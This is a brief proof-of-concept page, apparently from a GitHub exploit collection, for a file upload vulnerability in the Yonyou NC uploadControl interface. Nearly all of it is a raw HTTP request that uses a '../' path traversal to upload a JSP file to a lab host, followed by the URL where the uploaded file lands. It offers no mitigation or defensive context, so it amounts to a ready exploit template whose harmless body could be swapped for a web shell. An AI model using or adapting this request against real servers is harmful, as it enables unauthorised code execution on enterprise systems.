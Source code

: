 ## 用友NC-uploadControl接口存在文件上传漏洞


## poc
```
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: 192.168.63.133:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

111
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```

![image](https://github.com/wy876/POC/assets/139549762/64e73208-5e7f-4dfe-a3eb-4a56057d6969)

文件路径：`http:127.0.0.1/mp/uploadFileDir/test.jsp`
